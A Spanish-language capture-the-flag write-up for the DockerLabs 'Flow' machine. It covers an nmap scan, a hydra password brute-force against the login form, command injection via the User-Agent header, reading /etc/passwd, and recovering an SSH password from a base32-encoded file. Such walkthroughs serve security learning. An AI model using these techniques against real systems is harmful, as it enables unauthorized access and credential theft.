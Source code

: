 Máquina **Flow** de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Dificil

![Flow](images/flow/img/flow.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Dec 24 15:26:25 2024 as: nmap -sSVC -p- --open --min-rate 5000 -n -Pn -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-24 15:26:25 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a4:30:b7:53:8c:cd:b3:5e:a2:7b:84:a0:e2:8b:26:de (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHiHCVEfjf7qeFCWCS4xe8uPPHmHjQucfYiQ9WscYBiCH7voggRMAuMQGe5nOTSRFyFWOG5jXMVoPhwojthclfQ=
|   256 4c:7d:75:cf:08:77:21:76:94:8f:16:22:f3:b4:d1:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMg+N6LzkrrlWQj2YMZaZWsAQYp3LLNw4bzfTYv6YlpN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Login - P\xC3\xA1gina Segura
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 24 15:26:33 2024 -- 1 IP address (1 host up) scanned in 8.56 seconds
```

solo tenemos dos puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1`

•`Puerto 80: Apache https 2.4.58`

Ahora vamos desde el navegador y vemos un panel de login. Luego de revisar un poco, veo que en el codigo fuente se encuentra lo siguiente:

```html
<!-- d1se0  -->
```

al parecer tenemos un usuario, por lo que intento un ataque de fuerza bruta al panel de login:

```css
hydra -l d1se0 -P /opt/rockyou.txt 172.17.0.2 http-post-form '/index.php:username=^USER^&password=^PASS^:¡Ups! Las credenciales no son correctas. Intenta nuevamente.'
```

una vez lo hacemos, obtenemos las credenciales:

![Password](images/flow/img/pass.png)

Estando en "gestionAdminPanel.php", pruebo a capturar la petición con burpsuite, y reemplazar el "User-agent" por un comando, y revisando la respuesta, veo que podemos ejecutar comandos:

![Burp-command](images/flow/img/burp-id.png)

Sabiendo esto, podemos intentar enumerar un poco de ahí mismo. Para esto vamos a primero enumerar usuarios leyendo con `cat` el archivo `/etc/passwd` y veo que tenemos uno:

`flow`

# Intrusión

Ahora ejecutamos el comando `find` para buscar archivos que le pertenezcan a `flow`:

```css
find / -user "flow" 2>/dev/null
```

una vez ejecutado, vemos que existe un archivo llamado "secret" en `/usr/bin/secret` el cual si lo leemos dice lo siguiente:

```css
MQYXGZJQNFZXI2DFMJSXG5CAEQSCC===
```

Luego de pasar el mensaje de `base32` a texto, vemos lo siguiente:

```css
d1se0isthebest@$$!
```

por lo que para entrar debemos ejecutar `ssh flow@172.17.0.2` y poner la contraseña "d1se0isthebest@$$!"

# Escalada de privilegios

## Flow

#### Buffer overflow

https://youtu.be/09WQgOV1FtI



Gracias por leer y ver :)
